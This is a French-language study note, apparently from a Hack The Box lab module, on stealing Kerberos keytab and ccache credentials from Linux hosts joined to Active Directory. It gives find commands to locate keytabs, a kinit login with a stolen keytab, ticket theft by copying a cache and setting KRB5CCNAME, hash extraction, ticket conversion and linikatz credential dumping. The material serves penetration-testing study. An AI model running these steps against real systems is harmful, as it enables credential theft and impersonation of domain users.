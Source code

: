 Méthodes variés par distribution. généralement un fichier ccache dans `/tmp`, l'emplacement est dans la variable d'environement `KRB5CCNAME`.

Peut être un fichier keytab. Contient une paire de clefs Kerberos principales et encryptés (dérivé du mot de passe Keberos).

## Outils d'intégration avec AD
* realm
* sssd
* winbind
### détection
```shell-session
realm list
ps -ef | grep -i "winbind\|sssd"
```

## Trouver fichiers keytab
Peut utiliser l'extention .keytab, mais pas toujours.
```shell
find / -name *keytab* -ls 2>/dev/null
find / -name *.kt* -ls 2>/dev/null
```
Regarder aussi les cronjob
```
crontab -l
ls -lha /etc/cron.*
```

## Abuser fichiers Keytab
``` shell
#Lister les keytab
klist -k -t
#S'autentifier avec le keytab
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```
Extraire informations et hash des keytab
```shell
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```

## Abuser fichiers ccache Keytab
chercher les fichiers dans /tmp, doit avoir le droit de lecture.
```
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
root@linux01:~# klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB
```
On peut aussi l'installer localement. 
* Il faut pouvoir résoudre le nom du DC et domaines.
* Donner notre ticket à `KRB5CCNAME`
* Certaines applications comme evil-winrm vont nécessité un outil de gestion d'AD
```shell
sudo apt-get install krb5-user -y
#Donner le nom de domaine et du DC lors de l'instllation.
#Si déjà installé, modifier /etc/krb5.conf
```

## Divers
Convertir Ccache en kirbi
```shell-session
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```

Linikatz pour extraire divers creds d'une intégration AD sous Linux
`./linikatz.sh`


